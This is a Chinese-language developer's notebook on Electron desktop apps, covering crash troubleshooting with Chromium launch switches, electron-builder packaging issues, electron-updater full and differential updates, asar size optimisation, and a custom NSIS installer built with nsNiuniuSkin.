--disable-gpu --disable-gpu-compositing --no-sandbox --disable-software-rasterizer。最后发现有这样几个启动参数可以解决这个问题--no-sandbox为所有通常处于沙箱模式的进程类型禁用沙箱。此功能仅用作浏览器级别的开关，仅供测试使用 （这里的 “sandbox” 指的是软件沙箱，一种隔离机制，用于限制进程的权限以增强安全性。）--in-process-gpu将 GPU 进程作为一个线程运行在浏览器进程中 （这里涉及到软件进程与线程的概念。正常情况下，GPU（图形处理器）相关任务可能会以独立进程的形式运行，而这句话描述的是一种调整机制 —— 让原本独立的 GPU 进程不再单独启动，而是作为浏览器进程内部的一个线程来执行，可能用于特定的调试、性能测试或兼容性场景。）--disable-gpu-sandbox禁用 GPU 进程的沙箱 （这里的 “GPU 进程” 指负责处理图形渲染等 GPU 相关任务的进程，“沙箱” 是一种安全隔离机制。该表述通常出现在浏览器或图形处理相关软件的配置说明中，意为关闭对 GPU 进程的沙箱隔离，一般仅用于特定测试场景，正常使用时启用沙箱可增强安全性。）
-
总之可以大概确定由于沙箱的机制导致在这些老旧机器上 gpu 进程崩溃了。除了添加传递给 chromium 的启动参数，还可以在主进程 main.js 最上方写一句
app.commandLine.appendSwitch('--in-process-gpu');即可在代码层面传递启动参数 -
最后发现其实闪退真正的原因是 electron-builder 打包配置中设置了
requestedExecutionLevel为requireAdministrator造成的，要求管理员权限，如果当前账户不是管理员权限就会闪退，去掉requestedExecutionLevel配置即可解决此问题
打包报错
-
打包过程中莫名其妙的报错，并且没有任何错误信息提示，那么极有可能是因为使用了
electron-builder的钩子函数，例如afterPackafterAllArtifactBuildbeforePack等等指定的 js 文件报错了，所以去package.json文件中将这些钩子函数先删掉然后重新打包再看看 -
打包后发现
.asar中没有node_modules目录，环境为node 22.15.0npm 10.9.2electron-builder@26.0.12windows。windows cmd 设置下面的命令开启electron-builderDEBUG 模式set DEBUG=electron-builder然后会发现
electron-builder收集到的node_modules依赖是空数组，已经在 issue 中留言，等待electron-builder官方回复，目前解决方法是将electron-builder降低至版本 26.0.2
electron-builder打包之后exe图标问题
- 出现一种情况，打包之后的
win-unpacked目录下 exe 文件的图标和右键属性详细信息都是正常的，用自定义的 nsis 打包之后的安装包安装完成之后的软件打开后，任务栏的图标确变成了 electron 默认图标，并且安装目录下的 exe 文件的图标和属性详细信息也变成了 electron 默认的。这有可能是 windows 系统对于图标的缓存造成的，重启系统这个问题就自动好了 - windows 系统图标缓存目录在
C:\Users\用户名\AppData\Local\Microsoft\Windows\Explorer下，删除所有iconcache开头的文件即可清除图标缓存
参考链接
- Node 原生模块
- electron-builder 打包采坑问题汇总
- List of Chromium Command Line Switches
- 进程沙盒化
- Some Windows PCs forces Sandbox mode on Electron Chromium
- Need a way to run with --no-sandbox by default #18265
- The built exe file is using Electron's Icon #2071
- "Cannot find module 'sharp'" on Windows only after upgrading to 26.0.11 #8970
- electron-builder Debug
electron 全量更新与增量更新
-
electron 的自动更新功能依赖于
electron-builder和electron-updater -
electron-builder打包以后会生成 3 个文件latest.yml包含最新版本包的信息的配置文件，其中有 文件版本号，文件地址，文件哈希值，打包时间electron-update Setup 1.0.0.exe安装包 exe 文件electron-update Setup 1.0.1.exe.blockmapblockmap 文件，它记录了应用程序文件的区块索引和哈希值，帮助 electron-updater 精准识别新旧版本间的差异

如何实现
- 打包后将
latest.yml，安装包exe文件还有blockmap 文件全部放到服务器上作为静态资源文件服务，需要配置静态资源服务，以便后续检查更新的时候客户端 app 可以下载到这些文件
const Koa = require('koa');
const app = new Koa();
const serve = require('koa-static-server');
const { rangeStatic } = require('koa-range-static');
// app.use(
// serve({
// rootDir: 'public',
// rootPath: '/',
// setHeaders: (res, path, stat) => {
// res.setHeader('Accept-Ranges', 'bytes');
// res.setHeader('Content-Type', 'multipart/byteranges');
// },
// })
// );
app.use(rangeStatic({ root: 'public', directory: true }));
app.listen(33855);
- 在主进程中引入
electron-updater的逻辑
const { app, BrowserWindow, ipcMain } = require('electron');
const path = require('node:path');
const { autoUpdater } = require('electron-updater');
const log = require('electron-log');
// 为 autoUpdater 设置日志工具，autoUpdater 内部的日志都会输出到硬盘中，windows 系统默认在 C:\Users\用户名\AppData\Roaming\应用名\logs 下，方便 debug
autoUpdater.logger = log;
autoUpdater.logger.transports.file.level = 'info';
autoUpdater.autoInstallOnAppQuit = false;
// 设置 disableDifferentialDownload 可以关闭差分更新，也就是增量更新
// autoUpdater.disableDifferentialDownload = true;
log.info('App starting...');
let win;
const createWindow = () => {
win = new BrowserWindow({
width: 800,
height: 600,
webPreferences: {
preload: path.join(__dirname, 'preload.js'),
},
});
win.loadFile('index.html');
win.webContents.openDevTools();
win.on('ready-to-show', () => {
log.info('start check updates');
// 检查是否需要更新
autoUpdater.checkForUpdatesAndNotify();
});
};
function sendStatusToWindow(text) {
log.info(text);
win.webContents.send('message', text);
}
// 检查更新事件
autoUpdater.on('checking-for-update', () => {
sendStatusToWindow('Checking for update...');
});
// 有新版本可用
autoUpdater.on('update-available', info => {
sendStatusToWindow('Update available.');
});
// 无可用更新
autoUpdater.on('update-not-available', info => {
sendStatusToWindow('Update not available.');
});
// 报错
autoUpdater.on('error', err => {
sendStatusToWindow('Error in auto-updater. ' + err);
});
// 下载进度
autoUpdater.on('download-progress', progressObj => {
let log_message = 'Download speed: ' + progressObj.bytesPerSecond;
log_message = log_message + ' - Downloaded ' + progressObj.percent + '%';
log_message =
log_message +
' (' +
progressObj.transferred +
'/' +
progressObj.total +
')';
sendStatusToWindow(log_message);
});
// 更新包下载完成
autoUpdater.on('update-downloaded', info => {
sendStatusToWindow('Update downloaded');
setTimeout(() => {
autoUpdater.quitAndInstall(true, true);
}, 4000);
});
app.whenReady().then(() => {
createWindow();
});
app.on('window-all-closed', () => {
app.quit();
});
- 在
package.json中配置打包选项
{
"build": {
"appId": "update.test",
"publish": [// generic 是自定义的更新服务器，也就是我们上面用 koa 实现的静态文件服务, url 是服务的域名
{
"provider": "generic",
"url": "http://127.0.0.1:33855/"
}
],
"win": { // windows 目标格式为 nsis 安装包
"target": "nsis"
},
"nsis": { // nsis 安装包配置项
"createDesktopShortcut": "always", // 是否创建桌面图标
"oneClick": false, // 是否是一键安装包
"allowToChangeInstallationDirectory": true // 允许用户选择安装目录
},
"electronDownload": { // electron-builder 打包编译时切换镜像源，避免下载超时失败问题
// https://github.com/electron/get?tab=readme-ov-file#specifying-a-mirror
"mirror": "https://registry.npmmirror.com/binary.html?path=electron/"
}
}
}
- 这样当应用安装后启动，主进程就会触发
autoUpdater.checkForUpdatesAndNotify()去检查是否需要更新，如果当前电脑安装的是1.0.0版本，而静态资源服务上的latest.yml中是1.0.1版本号，electron-updater就会判断应用需要更新。这里会发生下面几件事： - 第一个版本，
1.0.0版本安装成功后，1.0.0的安装包文件会被复制到C:\Users\用户名\AppData\Local\应用名-updater目录下 autoUpdater.checkForUpdatesAndNotify()会请求文件服务器上的latest.yml文件，然后做版本号比较，判断是否需要更新- 如果
latest.yml中是1.0.1则需要更新，autoUpdater会去下载1.0.0和1.0.1两个版本的blockmap文件，两个版本的blockmap文件只要有一个不存在，就无法比较差异，自动降级为全量更新，直接下载完整的1.0.1安装包；如果两个版本的blockmap文件都存在，就下载然后比对新旧版本之间区块的差异，然后差分更新，只去下载需要更新的部分。新版本的安装包文件会下载到C:\Users\用户名\AppData\Local\应用名-updater\pending目录下 - 待用户退出应用后会自动发起静默更新操作，在系统后台自动安装新版本应用
日志表现
- 全量更新的时候日志是这样的：
[2025-07-31 11:46:33.448] [info] App starting... [2025-07-31 11:46:34.234] [info] start check updates [2025-07-31 11:46:34.235] [info] Checking for update [2025-07-31 11:46:34.236] [info] Checking for update... [2025-07-31 11:46:34.265] [info] Found version 1.0.1 (url: electron-update Setup 1.0.1.exe) [2025-07-31 11:46:34.265] [info] Update available. [2025-07-31 11:46:34.266] [info] Downloading update from electron-update Setup 1.0.1.exe [2025-07-31 11:46:34.284] [warn] disableWebInstaller is set to false, you should set it to true if you do not plan on using a web installer. This will default to true in a future version. [2025-07-31 11:46:35.260] [info] Download speed: 92694231 - Downloaded 100% (87966825/87966825) [2025-07-31 11:46:35.265] [info] New version 1.0.1 has been downloaded to C:\Users\用户名\AppData\Local\electron-update-updater\pending\electron-update Setup 1.0.1.exe - 增量更新的时候日志是这样的：
[2025-07-31 13:48:53.127] [info] App starting... [2025-07-31 13:48:53.587] [info] start check updates [2025-07-31 13:48:53.588] [info] Checking for update [2025-07-31 13:48:53.589] [info] Checking for update... [2025-07-31 13:48:53.645] [info] Found version 1.0.1 (url: electron-update Setup 1.0.1.exe) [2025-07-31 13:48:53.645] [info] Update available. [2025-07-31 13:48:53.646] [info] Downloading update from electron-update Setup 1.0.1.exe [2025-07-31 13:48:53.649] [warn] disableWebInstaller is set to false, you should set it to true if you do not plan on using a web installer. This will default to true in a future version. [2025-07-31 13:48:53.650] [info] Download block maps (old: "http://127.0.0.1:33855/electron-update%20Setup%201.0.0.exe.blockmap", new: http://127.0.0.1:33855/electron-update%20Setup%201.0.1.exe.blockmap) [2025-07-31 13:48:53.792] [info] File has 85 changed blocks [2025-07-31 13:48:53.812] [info] Full: 349,896.58 KB, To download: 1,950.42 KB (1%) [2025-07-31 13:48:56.232] [info] New version 1.0.1 has been downloaded to C:\Users\用户名\AppData\Local\electron-update-updater\pending\electron-update Setup 1.0.1.exe - 对比可以看到增量更新只下载了原始安装包大小的 1%
electron-updater其他参数
autoUpdater.forceDevUpdateConfig = true; //开发环境下强制更新
autoUpdater.autoDownload = false; // 自动下载更新
autoUpdater.autoInstallOnAppQuit = true; // 应用退出后自动安装
autoUpdater.quitAndInstall(isSilent, isForceRunAfter); // 退出应用并安装已经下载好的更新。isSilent 是否静默安装 isForceRunAfter 安装后是否重启应用
注意事项
- 静态文件服务器需要支持范围请求（即请求资源的一部分而非全部），即
Accept-Ranges响应头，所以上面代码中使用了koa-range-static而不是koa-static-server，如果不支持，electron-updater记录的日志会报错，并且更新行为会自动降级为全量更新[2025-07-31 03:59:35.855] [error] Cannot download differentially, fallback to full download: Error: Server doesn't support Accept-Ranges (response code 200) [2025-07-31 04:42:03.324] [error] Cannot download differentially, fallback to full download: Error: Content-Type "multipart/byteranges" is expected, but got "application/x-msdos-program" - 如果某个新版本不想走增量更新，直接将服务器上对应的
blockmap文件删除即可
参考链接
asar 增量更新
通过观察发现 electron-builder 和 electron-updater 实现的差分更新，并不能节省多少下载的带宽，这时候就需要实现只更新 asar 包的增量更新，1 包的体积小，更能节省带宽，提升更新的速度，用户体验好。
两种方案
-
不管是哪种方案，
asar更新的本质都是- 下载新版本的
asar包 - 关闭软件之后用新版本包覆盖旧版本包
- 重启软件更新完成
- 下载新版本的
-
所以两种方案的区别就在于关闭软件之后覆盖文件的方式不同，因为软件正在运行的途中，
asar包处于锁定状态，是无法覆盖的，所以就是为了解决覆盖文件的问题- 第一种是双
asar包方案，软件会生成两个asar包，electron-builder默认打包生成的app.asar作为入口包，软件启动后还是从app.asar启动，但是app.asar的代码里只存放检测新版本文件和覆盖的逻辑，做完覆盖操作后就使用require或者import动态导入main-v1.0.0.asar这个主asar包，所有软件的业务逻辑都在主包中 - 第二种逻辑简单一些，检查升级服务器是否存在新版本包，如果存在就下载下来，下载成功后立即退出软件，同时启动一个子进程，与软件主进程脱离关系，主进程退出后执行一个批处理脚本（或者 shell 脚本）覆盖操作，覆盖成功后再重启软件。所有的覆盖逻辑还有重启逻辑都在批处理脚本中
- 第一种是双
-
优缺点分析：
- 双
asar方案缺点是会出现两个版本号，因为asar包中必须存在package.json文件，因此当主包升级后，主包版本号会和入口包版本号不一致，解决办法是实现一个方法，需要读取版本号的时候都要去读取主包内的package.json的版本号。双包方案实现起来略微有些复杂 - 批处理脚本的优点是，实现起来简单，缺点是有可能批处理脚本的操作会被杀毒软件认为是病毒操作，被误杀
- 双
双 asar 方案

批处理方案

参考链接
开发框架搭建
-
现在来搭建一个本地开发框架，要分两种情况
- 第一种，主进程使用 esm 模块和 typescript，package.json 设置
"type": "module"，运行或者打包的时候还是将主进程代码编译成 esm 模块 - 第二章，主进程依然使用 esm 模块，但是 package.json 设置
"type": "commonjs"，运行打包时编译成 commonjs 模块
- 第一种，主进程使用 esm 模块和 typescript，package.json 设置
-
这样分开的原因：
- electron v28.0.0 版本开始才全面支持 esm 模块，也就是之前的版本主进程代码都使用 commonjs 模块，而最后一个支持 windows7 系统的版本是
electron v22，如果还需要开发支持 win7 的应用，那就只能用 commonjs 模块来写主进程代码了。
Electron will be ending support for Windows 7/8/8.1 after version 22.x.y following Chromium's plan to end support. Older versions of Electron will continue to work, but no further updates will be made for these operating systems.- 虽然官方说 v22 是最后一个支持 win7 的版本，但是看到有人测试发帖说 v22 在 win7 运行会报错，所以兼容 win7 需要使用 v21.4.4 版本，v21 的最后一个版本

- electron v28.0.0 版本开始才全面支持 esm 模块，也就是之前的版本主进程代码都使用 commonjs 模块，而最后一个支持 windows7 系统的版本是
参考链接
打包流程
参考链接
- vite config build
- rollup config external
- import resolve from '@rollup/plugin-node-resolve' 这个包的作用是什么
优化 asar 包大小
因为整个安装包太大，一般都在 100mb 以上，因此实现了 asar 包增量更新，所以就需要优化 asar 包的大小，如果 asar 包体积过大，那么 asar 增量更新就失去了意义
-
减小 asar 的包体积主要有这么几个手段：
- 通过
package.json中的build.files字段设置最终要打包到 asar 中的文件，从中剔除不需要的文件 - 打包生产环境安装包时将主进程代码打包，并配置打包工具将
node_modules中使用到的模块也打入最终 js 文件中，这样 asar 中的 node_modules 体积就会大大减少 package.json中的生产环境依赖只留下最终需要引入的模块，其他模块都放入 dev 依赖中，dev 依赖不会存在于 asar 中
- 通过
-
build.files设置打包的文件，不需要的文件前面用感叹号
{
"files": [
"**/*",
".env",
"package.json",
"!nsis_publish/**/*",
"!out/**/*",
"!public",
"!src",
"!.gitignore",
"!afterAllArtifactBuild.cjs",
"!afterPack.cjs",
"!beforePack.cjs",
"!*.ico",
"!installer.nsi",
"!License.txt",
"!out.log",
"!package-lock.json",
"!README.md",
"!Readme.txt",
"!server.js",
"!sha512.js",
"!tsconfig.*.json",
"!tsconfig.json",
"!update.json",
"!vite.*.config.ts",
"!*.exe"
]
}
- 配置 vite.es.config.js 将主进程代码使用到的 node_modules 依赖打入最终 js 文件
- 除了原生模块（electron better-sqlite3）以外， 'electron-log', 'dotenv', 'electron-updater', 'iconv-lite', 这几个包都是 commonjs 模块，并且他们没有默认导出，如果尝试将他们打入最终包，vite 就会报错，所以这几个模块都作为外部模块提供，并且放在 pakakage.json 中的生产依赖中，最后会存在于 asar 的 node_modules 中
import { defineConfig, normalizePath } from 'vite';
import path from 'path';
import { nodeResolve } from '@rollup/plugin-node-resolve';
import commonjs from '@rollup/plugin-commonjs';
import { viteStaticCopy } from 'vite-plugin-static-copy';
// 主进程中用到的 node 原生模块
const nodeBuiltins = [
'node:http',
'node:https',
'node:fs',
'node:fs/promises',
'node:path',
'node:url',
'node:child_process',
'module',
];
export default defineConfig({
root: path.resolve(__dirname, 'src/main'), // 项目根目录，主进程 js 所在目录
plugins: [
// 使用插件将渲染进程 html 相关文件复制到 dist 目录中
viteStaticCopy({
targets: [
{
src: normalizePath(path.resolve(__dirname, 'src/renderer/*')),
dest: './',
},
],
}),
],
build: {
outDir: path.resolve(__dirname, 'dist'), // 输出路径
emptyOutDir: false, // vite 编译前是否先清空输出目录下所有文件，这里选择 false 以防和复制 html 文件的行为互相冲突
target: 'node22', // 最终编译结果兼容什么环境
lib: {
// 以库的形式构建
entry: ['index.ts'], // 入口 js 文件
formats: ['es'], // 使用 esm 模块
fileName: (format, entryName) => {
// 输出的最终文件名
return `${entryName}.js`;
},
},
rollupOptions: {
external: [
// 排除在 bundle 外部的模块，这些模块是原生模块或者不想被打包到最终js文件中的模块
...nodeBuiltins,
'electron',
'electron-log',
'dotenv',
'electron-updater',
'iconv-lite',
'better-sqlite3',
],
plugins: [
/**
* @rollup/plugin-node-resolve 插件的主要职责是帮助 Rollup 解析和处理 Node.js 风格的模块导入语句。在 Node.js 环境中，模块可以通过相对路径、绝对路径、npm 包名（如 import something from 'my-package'）等多种方式进行导入。然而，Rollup 默认仅支持 ES 模块导入（即通过相对或绝对路径导入本地文件）。使用 @rollup/plugin-node-resolve 插件后，Rollup 能够识别并正确处理 Node.js 的模块导入机制，包括解析 node_modules 目录下的依赖包以及处理 package.json 中的 main、module、browser 等字段。
*/
nodeResolve({
preferBuiltins: true, // 优先解析为 node 原生模块
browser: false, // 不使用浏览器模块的解决方案
}),
// @rollup/plugin-commonjs 用于将 node_modules 中的 commonjs 包转换成 esm 模块，这样就能够被打包到最终 js 文件中
commonjs({
include: /node_modules/, // 告诉插件处理 node_modules 中的模块
esmExternals: true, // 假设所有模块都是 esm 模块
}),
],
output: {
entryFileNames: 'index.js', // 入口文件
format: 'es', // 打包成 esm 模块
externalLiveBindings: true, // 为外部依赖生成动态绑定的代码
globals: {
// 为外部依赖指定全局变量名
electron: 'electron',
},
sourcemap: true, // 开启 sourcemap
sourcemapExcludeSources: true, // 如果为 true 实际源代码将不会被添加到 sourcemap 文件中
},
},
},
});
- 生产依赖只留下需要的，其他都移入开发依赖
{
"dependencies": {
"better-sqlite3": "^11.10.0",
"dotenv": "^17.2.1",
"electron-log": "^5.4.2",
"electron-updater": "^6.6.2",
"iconv-lite": "^0.6.3"
},
"devDependencies": {
"@electron/asar": "^4.0.0",
"@rollup/plugin-commonjs": "^28.0.6",
"@rollup/plugin-node-resolve": "^16.0.1",
"@types/better-sqlite3": "^7.6.13",
"@types/electron": "^1.4.38",
"@types/node": "^24.2.0",
"axios": "^1.11.0",
"concurrently": "^9.2.0",
"copyfiles": "^2.4.1",
"date-fns": "^4.1.0",
"electron": "^37.2.4",
"electron-builder": "^26.0.12",
"fs-extra": "^11.3.1",
"globby": "^14.1.0",
"koa": "^3.0.1",
"koa-range-static": "^1.3.0",
"koa-router": "^13.1.1",
"koa-static-server": "^1.5.2",
"nodemon": "^3.1.10",
"rimraf": "^6.0.1",
"typescript": "^5.9.2",
"vite": "^7.0.6",
"vite-plugin-electron": "^0.29.0",
"vite-plugin-static-copy": "^3.1.1"
}
}
这样优化后， asar 包的体积只有 2 ~ 3 mb，体积很小了
参考链接
集成自定义 nsis 打包
-
electron-builder自带的 nsis 最后的安装包界面比较普通简陋，并且不能自定义所有界面的样式，因此大多数情况下可能需要自己编写 nsis 脚本制作安装包，或者使用第三方的 nsis 插件来制作安装包，这时候就需要调整升级的逻辑，因为electron-builder只为自带的 nsis 提供升级文件的生成，如果要自己打包 nsis，那么需要自己写脚本生成对应的latest.yml升级文件 -
这里使用的是
nsNiuniuSkin这个第三方制作 nsis 的插件
集成 nsNiuniuSkin
- 首先去 nsNiuniuSkin 官网下载插件，下载后解压到项目根目录下
nsis_publish
└─FilesToInstall // 放需要打包的文件
├─locales
├─resources
│ ├─app.asar.unpacked
│ ├─app-update.yml
│ ├─app.asar
├─chrome_100_percent.pak
├─chrome_200_percent.pak
├─d3dcompiler_47.dll
├─electron-update.exe
├─ffmpeg.dll
├─icudtl.dat
├─libEGL.dll
├─libGLESv2.dll
├─LICENSE.electron.txt
├─LICENSES.chromium.html
├─resources.pak
├─snapshot_blob.bin
├─v8_context_snapshot.bin
├─vk_swiftshader_icd.json
├─vk_swiftshader.dll
├─vulkan-1.dll
└─NSIS // NSIS完整软件
└─Output // 输出目录，打包好的安装包会放到这里
├─electron-update_V0.0.18.exe
└─SetupScripts
├─nim
│ ├─skin
│ ├─icon.ico
│ ├─licence.rtf
│ ├─license.txt // 协议文件
│ ├─nim_setup.nsi // nsis 脚本入口
│ ├─skin.zip
│ ├─ui_nim_setup.nsh // nsis 脚本
│ ├─uninst.ico
├─app.7z
├─app.nsh
├─commonfunc.nsh // nsis 脚本通用函数
└─7z.dll
└─7z.exe
└─安装包报毒解决方法.txt
└─打包配置及流程说明.doc
└─build-nim-nozip.bat
└─build-nim.bat
└─Description_of_NiuniuSetupSkin.doc
└─getCodeStructure.cjs
└─makeapp.bat
└─makensiscode.bat
└─makeskinzip.bat
└─NSIS.chm
- 修改
nsis_publish/SetupScripts/nim/nim_setup.nsi入口文件的基本信息
# ====================== 自定义宏 产品信息==============================
!define PRODUCT_NAME "electron-update" # 软件名
!define PRODUCT_PATHNAME "electron-update" #安装卸载项用到的KEY
!define INSTALL_APPEND_PATH "electron-update" #安装路径追加的名称
!define INSTALL_DEFALT_SETUPPATH "" #默认生成的安装路径
!define EXE_NAME "electron-update.exe" # 可执行文件名字
!define PRODUCT_VERSION "0.0.18.0" # nsis 版本号，这里后续会使用 VIProductVersion 来设置安装程序的 VS_FIXEDFILEINFO 版本信息块中的版本号，必须4位
!define PRODUCT_SHOW_VERSION "0.0.18" # 对外显示的版本号
!define PRODUCT_PUBLISHER "hahazexia" # 软件发布者
!define PRODUCT_LEGAL "hahazexia 2025" # 版权信息
!define INSTALL_OUTPUT_NAME "${PRODUCT_NAME}_V${PRODUCT_SHOW_VERSION}.exe" # 安装包文件最终的名字
# ====================== 自定义宏 安装信息==============================
!define INSTALL_7Z_PATH "..\app.7z"
!define INSTALL_7Z_NAME "app.7z"
!define INSTALL_RES_PATH "skin.zip"
!define INSTALL_LICENCE_FILENAME "license.txt"
!define INSTALL_ICO "icon.ico"
!define UNINSTALL_ICO "uninst.ico"
; Compression algorithm configuration (must be placed at the very beginning of the script)
; Use LZMA algorithm with solid compression (highest compression ratio)
; SetCompressor /SOLID lzma # 可以开启 lzma 压缩
; Set compression dictionary size (optional, range 4-64, unit: MB)
; Larger values provide better compression but increase compression time, 16 or 32 recommended
; SetCompressorDictSize 4 # 设置压缩字典大小
!include "ui_nim_setup.nsh" # 引入主脚本
# ==================== NSIS属性 ================================
# 针对Vista和win7 的UAC进行权限请求.
# RequestExecutionLevel none|user|highest|admin
RequestExecutionLevel admin
; 安装包名字.
Name "${PRODUCT_NAME}"
# 安装程序文件名.
OutFile "..\..\Output\${INSTALL_OUTPUT_NAME}"
;$PROGRAMFILES32\Netease\NIM\
InstallDir "1"
# 安装和卸载程序图标
Icon "${INSTALL_ICO}"
UninstallIcon "${UNINSTALL_ICO}"
- 修改
nsis_publish/SetupScripts/nim/ui_nim_setup.nsh文件中的静默安装入口函数，放在 silentInstallSec 中的方法会在自动升级的时候提供静默安装的能力
# 添加一个静默安装的入口
Section "silentInstallSec" SEC01
#MessageBox MB_OK|MB_ICONINFORMATION "Test silent install. you can add your silent install code here."
; FileOpen $0 "$DESKTOP\silent_install.log" w
; FileWrite $0 "enter silent install section 1 \r\n"
; FileClose $0
Pop $0
Call GenerateSetupAddress
GetFunctionAddress $0 ExtractFunc
BgWorker::CallAndWait
SetShellVarContext all
CreateShortCut "$DESKTOP\${PRODUCT_NAME}.lnk" "$INSTDIR\${EXE_NAME}"
SetShellVarContext current
Call CreateAppShortcut
Call CreateUninstall
StrCpy $InstallState "1"
Call OnFinished
SectionEnd
- 然后可以去
nsis_publish/SetupScripts/nim/skin目录下修改 xml 文件和图片文件，xml 文件就对应了安装包中的页面
| xml 文件 | 说明 |
|---|---|
| install.xml | 安装程序的入口 |
| configpage.xml | 打开安装包后显示的第一个界面，也是选择安装路径的界面 |
| licensepage.xml | 许可协议显示界面 |
| installingpage.xml | 安装过程界面 |
| finishpage.xml | 安装完成界面 |
| uninstallpage.xml | 卸载入口界面 |
| uninstallingpage.xml | 卸载过程界面 |
| uninstallfinishpage.xml | 卸载完成界面 |
| msgBox.xml | 二级弹窗 |
-
nsis_publish/SetupScripts/nim/logo.ico是安装器图标，nsis_publish/SetupScripts/nim/uninst.ico是卸载器图标 -
nsis_publish/SetupScripts/nim/ui_nim_setup.nsh中是主要逻辑
| 方法名 | 说明 |
|---|---|
| DUIPage | 安装入口脚本，用于初始化一些信息 |
| un.DUIPage | 卸载入口脚本 |
| BindUIControls | 绑定安装的界面事件 |
| ShowMsgBox | 显示二级子窗口 |
| OnBtnInstall | 安装主流程控制 |
nsis 语法
- Setup 安装程序是基于 NSIS 这个工具来制作的，使用了
nsNiuniuSkin.dll这个插件来负责UI的控制
Var InstallState
StrCpy $InstallState "0"
# Var是声明变量的关键字
# $符号用于引用变量
# StrCpy是字符串复制函数，语法为StrCpy $目标变量 "源字符串"
- nsis 脚本中有 20 个预设的变量
$0 $1 $2 $3 $4 $5 $6 $7 $8 $9 $10
$11 $12 $13 $14 $15 $16 $17 $18 $19 $20
- 这些变量和自己写的变量用法是一样的，但通常用于共享的方法和宏中。这些变量不需要专门去声明，建议使用栈
stack来存放这些变量的值。这些变量也可被用于插件间的通信，因为它们可被插件 DLL 文件读写。# 表示将函数 OnBtnInstall 的地址获取后存入$0变量，后续可通过 $0 调用该函数。 GetFunctionAddress $0 OnBtnInstall - 还有 4 个变量
| 变量 | 说明 |
|---|---|
| $INSTDIR | 安装目录 |
| $OUTDIR | 输出目录 |
| $CMDLINE | 进入安装包的命令行 |
| $LANGUAGE | 当前使用的语言，可以在 onInit 回调中指定语言，英语 1033 中文 2052 |
- 有大量预设的常量可以使用
| 常量 | 说明 |
|---|---|
| $PROGRAMFILES | 在64位系统中指向C:\Program Files (x86) |
| $PROGRAMFILES32 | 指向C:\Program Files (x86) |
| $PROGRAMFILES64 | 在64位系统中指向C:\Program Files |
| $DESKTOP | Windows桌面地址 |
| $EXEDIR | 安装包所在的目录 |
| $EXEFILE | 安装程序文件名 |
| $EXEPATH | $EXEDIR和$EXEFILE拼合到一起的安装文件全路径 |
| ${NSISDIR} | NSIS程序的安装目录地址，如D:\NSIS |
| $WINDIR | Windows目录地址，如C:\Windows |
| $SYSDIR | Windows下system目录地址，如C:\Windows\System32 |
| $TEMP | 系统临时目录地址，如C:\Users\linxinfa\AppData\Local\Temp |
| $STARTMENU | 开始菜单地址，如C:\Users\linxinfa\AppData\Roaming\Microsoft\Windows\Start Menu |
| $SMPROGRAMS | 开始菜单下Programs地址，如C:\Users\linxinfa\AppData\Roaming\Microsoft\Windows\Start Menu\Programs |
| $QUICKLAUNCH | 快速启动栏，如C:\Users\linxinfa\AppData\Roaming\Microsoft\Internet Explorer\Quick Launch |
| $DOCUMENTS | “我的文档” 目录地址，如C:\Users\linxinfa\Documents |
| $FONTS | “字体” 目录地址，如C:\Windows\Fonts |
| $$ | 转义，用来表示 $ |
| $\r | 用来表示一个回车(\r) |
| $\n | 用来表示新的一行(\n) |
| $\t | 用来表示一个 Tab(\t) |
- 其他语法
# 函数定义
Function ShowMsgBox
# 函数体
FunctionEnd
# 函数调用
Call ShowMsgBox
# 带返回值的函数
Function SimpleTest
Push "OK"
FunctionEnd
# 调用带返回值的函数
Call SimpleTest
Pop $0
${If} $0 == "OK"
MessageBox MB_OK|MB_ICONEXCLAMATION "函数返回了OK"
${EndIf}
# if 条件语句
# 安装界面点击退出，给出提示
Function OnExitDUISetup
${If} $InstallState == "0"
StrCpy $R8 "安装尚未完成，您确定退出安装么？"
StrCpy $R7 "1"
Call ShowMsgBox
pop $0
${If} $0 == 0
goto endfun
${EndIf}
${EndIf}
nsNiuniuSkin::ExitDUISetup
endfun:
FunctionEnd
# 引入外部脚本：include
!include "StrFunc.nsh"
!include "LogicLib.nsh"
!include "..\commonfunc.nsh"
# 定义常量
!define INSTALL_PAGE_CONFIG 0
!define INSTALL_PAGE_PROCESSING 1
!define INSTALL_PAGE_FINISH 2
# 以 ;或#开始的行为注释行。可以在命令后面添加注释，也可以使用C规范的注释来注释一行或多行。
; 注释
# 注释
/*
注释
注释
*/
UI界面
-
布局：VerticalLayout 与 HorizontalLayout 布局分水平布局和垂直布局
<VerticalLayout> <!-- 垂直布局 --> </VerticalLayout> <HorizontalLayout> <!-- 水平布局 --> </HorizontalLayout> -
留空：Control 界面布局中，我们有时候需要做一些留空，我们可以使用Control来实现留空，有点类似html中的div。比如这里留了25个像素的空行
<Control height="25" /> -
图片，图片路径是相对于 skin 目录
<VerticalLayout width="480" height="250" roundcorner="5,5" bkimage="file='form\pic.png'"> -
显示文本，内边距：padding UI在布局中，可以设置相对于父控件的边距，顺序是：左、上、右、下
<Label font="5" textcolor="#FF333333" text="安装路径：" padding="40,0,30,0" /> -
显示按钮：Button，要指定各种状态的图片 normalimage 普通状态 hotimage 鼠标悬停状态 pushedimage 被点击状态 disabledimage 禁用状态
<Button name="btnInstall" padding="95,10,95,30" height="40" normalimage="form\btn_installation_normal.png" hotimage="form\btn_installation_hovered.png" pushedimage="form\btn_installation_pressed.png" disabledimage="form\btn_installation_disable.png" font="6" textcolor="0xffffffff" disabledtextcolor="0xffffffff" margin="0,10,0,0" text="一键安装" /> -
图片也可以只使用一张图，设置不同坐标和大小
source='0,0,29,26'从图片左上角坐标(0,0)开始，截取宽 29px、高 26px 的区域作为正常状态图像source='0,26,29,52'截取坐标(0,26)到(29,52)的区域（即正常状态区域正下方的 26px 高度区域）source='0,52,29,78'截取坐标(0,52)到(29,78)的区域（即悬停状态区域正下方的 26px 高度区域）
<Button name="btnClose" width="29" height="29" normalimage="file='form\close1.png' source='0,0,29,26'" hotimage="file='form\close1.png' source='0,26,29,52'" pushedimage="file='form\close1.png' source='0,52,29,78'" /> -
按钮的点击响应 比如一键安装按钮，在 xml 给按钮取名字叫"btnInstall"
<Button name="btnInstall" padding="95,10,95,30" height="40" normalimage="form\btn_installation_normal.png" hotimage="form\btn_installation_hovered.png" pushedimage="form\btn_installation_pressed.png" disabledimage="form\btn_installation_disable.png" font="6" textcolor="0xffffffff" disabledtextcolor="0xffffffff" margin="0,10,0,0" text="一键安装" />- nsh 中通过名字来设置按钮的点击函数
GetFunctionAddress $0 OnBtnInstall nsNiuniuSkin::BindCallBack $hInstallDlg "btnInstall" $0 # 开始安装 Function OnBtnInstall FunctionEnd -
输入框 例如 安装路径的输入框
